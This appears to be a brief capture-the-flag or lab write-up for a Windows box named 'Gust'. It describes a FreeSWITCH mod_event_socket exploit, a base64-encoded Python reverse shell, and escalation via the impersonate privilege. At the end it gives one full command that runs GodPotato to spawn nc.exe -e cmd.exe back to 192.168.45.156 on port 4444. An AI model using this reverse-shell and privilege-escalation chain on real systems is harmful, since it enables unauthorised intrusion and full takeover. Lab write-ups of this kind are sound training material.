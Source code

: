 # Gust

I start off by scanning for open ports:

<figure><img src="../../../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

I don't find anything so i look for exploits for 'FreeSWITCH mod\_event\_socket' and find this:

{% embed url="https://www.exploit-db.com/exploits/47799" %}

<figure><img src="../../../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

So i reverse shell with a python base64 encoded payload

<figure><img src="../../../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

Then i transfer file because we have impersonate privilege:

<figure><img src="../../../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

and after also transferring nc.exe i run:

```
C:\Temp\GodPotato-NET4.exe -cmd "C:\Temp\nc.exe -e cmd.exe 192.168.45.156 4444"
```

<figure><img src="../../../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>
